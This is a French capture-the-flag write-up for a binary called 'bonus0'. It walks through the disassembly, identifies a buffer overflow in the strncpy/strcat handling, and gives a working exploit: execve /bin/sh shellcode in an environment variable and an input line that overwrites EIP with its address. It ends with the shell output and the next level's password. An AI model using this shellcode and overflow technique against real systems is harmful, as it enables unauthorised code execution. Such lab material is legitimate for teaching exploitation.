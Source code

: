 ## Démarches

- `objdump -d bonus0`
  ```
    080484b4 <p>:
        80484b4:	55                   	push   %ebp
        80484b5:	89 e5                	mov    %esp,%ebp
        80484b7:	81 ec 18 10 00 00    	sub    $0x1018,%esp
        80484bd:	8b 45 0c             	mov    0xc(%ebp),%eax
        80484c0:	89 04 24             	mov    %eax,(%esp)
        80484c3:	e8 e8 fe ff ff       	call   80483b0 <puts@plt>
        80484c8:	c7 44 24 08 00 10 00 	movl   $0x1000,0x8(%esp)
        80484cf:	00
        80484d0:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
        80484d6:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484da:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
        80484e1:	e8 9a fe ff ff       	call   8048380 <read@plt>
        80484e6:	c7 44 24 04 0a 00 00 	movl   $0xa,0x4(%esp)
        80484ed:	00
        80484ee:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
        80484f4:	89 04 24             	mov    %eax,(%esp)
        80484f7:	e8 d4 fe ff ff       	call   80483d0 <strchr@plt>
        80484fc:	c6 00 00             	movb   $0x0,(%eax)
        80484ff:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
        8048505:	c7 44 24 08 14 00 00 	movl   $0x14,0x8(%esp)
        804850c:	00
        804850d:	89 44 24 04          	mov    %eax,0x4(%esp)
        8048511:	8b 45 08             	mov    0x8(%ebp),%eax
        8048514:	89 04 24             	mov    %eax,(%esp)
        8048517:	e8 d4 fe ff ff       	call   80483f0 <strncpy@plt>
        804851c:	c9                   	leave
        804851d:	c3                   	ret

    0804851e <pp>:
        804851e:	55                   	push   %ebp
        804851f:	89 e5                	mov    %esp,%ebp
        8048521:	57                   	push   %edi
        8048522:	53                   	push   %ebx
        8048523:	83 ec 50             	sub    $0x50,%esp
        8048526:	c7 44 24 04 a0 86 04 	movl   $0x80486a0,0x4(%esp)
        804852d:	08
        804852e:	8d 45 d0             	lea    -0x30(%ebp),%eax
        8048531:	89 04 24             	mov    %eax,(%esp)
        8048534:	e8 7b ff ff ff       	call   80484b4 <p>
        8048539:	c7 44 24 04 a0 86 04 	movl   $0x80486a0,0x4(%esp)
        8048540:	08
        8048541:	8d 45 e4             	lea    -0x1c(%ebp),%eax
        8048544:	89 04 24             	mov    %eax,(%esp)
        8048547:	e8 68 ff ff ff       	call   80484b4 <p>
        804854c:	8d 45 d0             	lea    -0x30(%ebp),%eax
        804854f:	89 44 24 04          	mov    %eax,0x4(%esp)
        8048553:	8b 45 08             	mov    0x8(%ebp),%eax
        8048556:	89 04 24             	mov    %eax,(%esp)
        8048559:	e8 42 fe ff ff       	call   80483a0 <strcpy@plt>
        804855e:	bb a4 86 04 08       	mov    $0x80486a4,%ebx
        8048563:	8b 45 08             	mov    0x8(%ebp),%eax
        8048566:	c7 45 c4 ff ff ff ff 	movl   $0xffffffff,-0x3c(%ebp)
        804856d:	89 c2                	mov    %eax,%edx
        804856f:	b8 00 00 00 00       	mov    $0x0,%eax
        8048574:	8b 4d c4             	mov    -0x3c(%ebp),%ecx
        8048577:	89 d7                	mov    %edx,%edi
        8048579:	f2 ae                	repnz scas %es:(%edi),%al
        804857b:	89 c8                	mov    %ecx,%eax
        804857d:	f7 d0                	not    %eax
        804857f:	83 e8 01             	sub    $0x1,%eax
        8048582:	03 45 08             	add    0x8(%ebp),%eax
        8048585:	0f b7 13             	movzwl (%ebx),%edx
        8048588:	66 89 10             	mov    %dx,(%eax)
        804858b:	8d 45 e4             	lea    -0x1c(%ebp),%eax
        804858e:	89 44 24 04          	mov    %eax,0x4(%esp)
        8048592:	8b 45 08             	mov    0x8(%ebp),%eax
        8048595:	89 04 24             	mov    %eax,(%esp)
        8048598:	e8 f3 fd ff ff       	call   8048390 <strcat@plt>
        804859d:	83 c4 50             	add    $0x50,%esp
        80485a0:	5b                   	pop    %ebx
        80485a1:	5f                   	pop    %edi
        80485a2:	5d                   	pop    %ebp
        80485a3:	c3                   	ret

    080485a4 <main>:
        80485a4:	55                   	push   %ebp
        80485a5:	89 e5                	mov    %esp,%ebp
        80485a7:	83 e4 f0             	and    $0xfffffff0,%esp
        80485aa:	83 ec 40             	sub    $0x40,%esp
        80485ad:	8d 44 24 16          	lea    0x16(%esp),%eax
        80485b1:	89 04 24             	mov    %eax,(%esp)
        80485b4:	e8 65 ff ff ff       	call   804851e <pp>
        80485b9:	8d 44 24 16          	lea    0x16(%esp),%eax
        80485bd:	89 04 24             	mov    %eax,(%esp)
        80485c0:	e8 eb fd ff ff       	call   80483b0 <puts@plt>
        80485c5:	b8 00 00 00 00       	mov    $0x0,%eax
        80485ca:	c9                   	leave
        80485cb:	c3                   	ret
  ```
    - On peut observer que le `main` appelle une fonction `pp`, puis un `puts`
    - La fonction `pp` fait appel à la fonction `p` 2 fois puis concatène avec `strcat`
    - La fonction `p` utilise `puts`, `read`, `strnchr` et `strncpy`


- Au lancement, le programme nous demande de saisir des strings sur l'entrée standard à 2 reprises, puis concatène les 2 chaines et les imprime. Si les 2 chaines sont trop longues, le programme segfault.
  
- Avec gdb et peda, on peut déterminer que pour chaque chaine, la longueur prévue est de 20 caractères, et le read en lit 4096.
  
- On peut utilise un shellcode (cf level2) pour écrire sur l'eip et appeler un shell
  - On enregistre le shellcode dans l'environnement (plus 200+ intructions NOP pour avoir de la marge)
    ```
    export SHELLCODE=`python -c 'print("\x90"*240+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`
    ```
  
  - Dans gdb, on récupère l'adresse de la variable avec `x/s *((char **)environ)`
    > 0xbffff7c4

<!-- r < <( python -c 'print("A"*4095+"\n"+"\x90"*9+"\xc4\xf7\xff\xbf"+20*"B")') -->

  - On remplit le premier read afin d'accèder au second en une seule instruction, puis on ajoute l'adresse du shellcode
    `(python -c 'print("A"*4095+"\n"+"\x90"*9+"\xc4\xf7\xff\xbf"+20*"B")' ; cat -) | ./bonus0`
      ```
      AAAAAAAAAAAAAAAAAAAA�������������BBBBBBB�� �������������BBBBBBB��
      pwd
      /home/user/bonus0
      cat /home/user/bonus1/.pass
      cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
      exit
      ```

<br>
----
## Ressources